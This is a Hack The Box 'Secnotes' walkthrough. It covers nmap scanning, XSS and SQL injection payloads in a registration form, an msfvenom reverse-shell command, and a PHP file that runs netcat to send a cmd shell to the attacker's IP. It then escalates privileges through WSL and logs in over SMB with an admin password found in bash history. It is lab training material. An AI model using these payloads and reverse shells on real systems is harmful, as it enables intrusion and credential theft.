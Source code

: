 # Hackthebox - Secnotes

## Nmap

```
┌──(root💀kali)-[~/Documents/hackthebox/secnotes]
└─# nmap -T4 -A -p- 10.10.10.97
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-02 10:46 EDT
Nmap scan report for 10.10.10.97
Host is up (0.025s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-title: Secure Notes - Login
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|7 (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (86%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-04-02T14:50:46
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2022-04-02T07:50:47-07:00
|_clock-skew: mean: 2h22m41s, deviation: 4h02m32s, median: 2m39s

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   24.69 ms 10.10.14.1
2   24.84 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.12 seconds
```

## Port 80

- There is a website in which we can register  
![image](https://user-images.githubusercontent.com/96747355/161392042-5ba00a95-a1a6-4fb3-b094-f50db3e8fd95.png)  
- There is also a message disclosing an email address  
![image](https://user-images.githubusercontent.com/96747355/161392138-71a2dd00-b6b2-40ad-9c7c-8f8253f0cfbd.png)  
- So we keep it aside ` tyler@secnotes.htb` we can also edit our `/etc/hosts` file and add `10.10.10.97 secnotes.htb` in it  
- No sqli in the login
- Let's try on the register if we register a user with username `<script>alert(1)</script>` when we login with it after we have a stored xss:  
![image](https://user-images.githubusercontent.com/96747355/161392971-b25a15fc-5a56-4c1e-9647-40051f478fee.png)  
- So we need to investigate the username parameter and see if it might be vulnerable to sqli
- Let's try with this `' or 1=1; --` we get an internal server error when trying to login with this after but if we register with `'OR 1 OR'` it actually works and we get all the tickets  
![image](https://user-images.githubusercontent.com/96747355/161393496-bd38b265-53ad-4c97-8cd9-34bcfc9298d6.png)  
- We even get a user and password: `tyler / 92g!mA8BGjOirkL%OG*&` along with what looks like an smb folder so definetely worth trying to connect there `\\secnotes.htb\new-site`

## SMB

```
┌──(root💀kali)-[~/Documents/hackthebox/secnotes]
└─# smbclient \\\\10.10.10.97\\new-site -U tyler
smb: \> download test.txt
download: command not found
smb: \> put test.txt
putting file test.txt as \test.txt (0.0 kb/s) (average 0.0 kb/s)
smb: \> ls
  .                                   D        0  Sat Apr  2 17:04:06 2022
  ..                                  D        0  Sat Apr  2 17:04:06 2022
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  test.txt                            A        0  Sat Apr  2 17:04:06 2022

                7736063 blocks of size 4096. 3395585 blocks available
```
- We get to a share that hosts the default files of the webserver on port 8808. We have write rights (you can see above that I was able to download a test file) so we could use and aspx reverse shell `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=5555 -f aspx > shell.aspx`
- We put it on the share `put shell.aspx`
- We launch on listener `rlwrap nc -lvp 5555`
- We browse to our reverse shell from the website - does not work :$ - our file are deleted
- Let's try to put `/usr/share/windows-resources/binaries/nc.exe` in it
- We can then make a php file that will launch nc and connect it to our machine so that we get a reverse shell:
```
<?php
system('nc.exe -e cmd.exe 10.10.14.4 5555')
?>
```
- We can then browse to the page, and we get a shell  
![image](https://user-images.githubusercontent.com/96747355/161402147-fa79ebc5-e6c1-48ca-9392-86c0870c3266.png)  
- We can then grab the user flag

## Privilege Escalation

- In the desktop of tyler there is a bash.lnk. We could use [this from payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---windows-subsystem-for-linux-wsl) to privesc
- Let's see if we have a bash.exe file somewhere
```
where /R c:\windows bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```
- Now let's find wsl.exe
```
where /R c:\windows wsl.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```
- Let's see if we are root with wsl:
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
root
```
- We are root
- Let's launch the bash to get the shell  
![image](https://user-images.githubusercontent.com/96747355/161403022-8d3f3c2f-afc2-4b4f-b52b-a68f97217af5.png)  
Let's spawn a [tty shell](https://netsec.ws/?p=337)
```
python -c "import pty;pty.spawn('/bin/bash')"
```
- if we type history we have an instresting output
```
history
    1  cd /mnt/c/
    2  ls
    3  cd Users/
    4  cd /
    5  cd ~
    6  ls
    7  pwd
    8  mkdir filesystem
    9  mount //127.0.0.1/c$ filesystem/
   10  sudo apt install cifs-utils
   11  mount //127.0.0.1/c$ filesystem/
   12  mount //127.0.0.1/c$ filesystem/ -o user=administrator
   13  cat /proc/filesystems
   14  sudo modprobe cifs
   15  smbclient
   16  apt install smbclient
   17  smbclient
   18  smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
   19  > .bash_history 
   20  less .bash_history
   21  uname -a
   22  pwd
   23  ls -al
   24  history
```

- We have the password for the admin por smbclient
- ` smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$` And it works! We can actually connect as administrator to an smb share we just need to grab the flag  
![image](https://user-images.githubusercontent.com/96747355/161403183-d7124822-5828-47fe-bfb3-7dc58440c1f6.png)
